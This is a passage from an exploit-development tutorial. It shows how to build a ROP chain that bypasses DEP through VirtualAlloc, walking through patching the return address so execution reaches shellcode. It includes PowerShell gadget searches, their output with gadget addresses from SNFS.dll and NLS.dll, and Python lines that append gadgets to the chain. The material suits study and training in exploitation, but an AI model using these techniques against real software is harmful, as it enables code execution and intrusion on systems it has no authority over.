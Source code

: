 We have successfully patched the address of `VirtualAlloc` at runtime. Let’s recap our steps:

1. Obtain the IAT address of `VirtualAlloc`
2. ROP chain to obtain the stack address that contains the `VirtualAlloc` placeholder
3. ROP chain to fetch the `VirtualAlloc` address
4. ROP chain to patch the `VirtualAlloc` address

## Patching Return Address <a name="retadd"></a>

Because during ROP chains we are modifying the return address, once we within our ROP chain, we returned into it, therefore we won’t have valid return address. We therefore need to patch it so that our shellcode is next. We need to shift execution to our `(0x46464646)) # Shellcode Return Address` location. We follow the same 3 step recipe as before.

- Align `EAX` with a placeholder value for the return address
- Dynamically locate the address of our return address
- Patch the placeholder value

We noted that our `VirtualAlloc` address to which we want to return should be 4 bytes bigger. We therefore increase `EAX` which contains the address to `VirtualAlloc` by four bytes and write our return address. Something like `ADD EAX, 0x04` would be perfect, however, no such gadget exist, however, increasing by only `0x01` can be found. We analyze the gadgets to find one that doesn’t have adverse effects on our ROP chain.

```python
gci .\ROPS  -File -Recurse -EA SilentlyContinue | Select-String -Pattern "(inc eax).*?((retn  ;)|(ret  ;))" | Select-String -Pattern "(leave)" -NotMatch
ROPS\SNFS.dll.txt:7625:0x1000f978: inc eax ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:7626:0x10011b04: inc eax ; ret  ;  (1 found)

#Patching Return Address by 4 bytes
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
```

We want our `EAX` register to point to `0x46464646`, which is the address to the placeholder value for the return address. We will patch the value again using the `mov dword [eax], ecx ; ret  ;` instructions. Since we don't know our shellcode address which will be after the ROP chain, we add a fixed bytes value such as `0x210`. 

Considering `0x210` contains a null byte we will have to use some tricks to get the value read. We will be popping the negative fixed bytes into a register e.g. `0xfffffdf0` and then subtract it from `EAX` or another register holding the adjusted return address. Ultimately, we want the `EAX` value to point to our placeholder return address, and our `ECX` register to point to location which is equal to our placeholder address + our `210` bytes. We look for gadgets that can be used during our `SUB` function.

```python
 gci .\ROPS  -File -Recurse -EA SilentlyContinue | Select-String -Pattern "(SUB E[a-z][a-z], E[a-z][a-z]).*?((retn  ;)|(ret  ;))" | Select-String -Pattern "(sub eax, ecx)" -NotMatch

ROPS\NLS.dll.txt:3882:0x10006c71: cmc  ; sub eax, edx ; sar eax, 1  ; add eax, eax ; ret  ;  (1 found)
ROPS\NLS.dll.txt:3883:0x10006c3a: cmc  ; sub eax, edx ; sar eax, 1  ; ret  ;  (1 found)
ROPS\NLS.dll.txt:6471:0x10006f77: mov eax, esi ; pop esi ; sub eax, edx ; pop edi ; ret  ;  (1 found)
ROPS\NLS.dll.txt:8433:0x10006f79: pop esi ; sub eax, edx ; pop edi ; ret  ;  (1 found)
ROPS\NLS.dll.txt:12151:0x10006f7a: sub eax, edx ; pop edi ; ret  ;  (1 found)
ROPS\NLS.dll.txt:12152:0x10006c59: sub eax, edx ; ret  ;  (1 found)
ROPS\NLS.dll.txt:12153:0x10006c72: sub eax, edx ; sar eax, 1  ; add eax, eax ; ret  ;  (1 found)
ROPS\NLS.dll.txt:12154:0x10006c3b: sub eax, edx ; sar eax, 1  ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:18018:0x10019f0d: sub eax, edx ; pop esi ; sar eax, 0x04 ; lea eax, dword [eax+ecx+0x08] ; ret  ;  (1 found)

```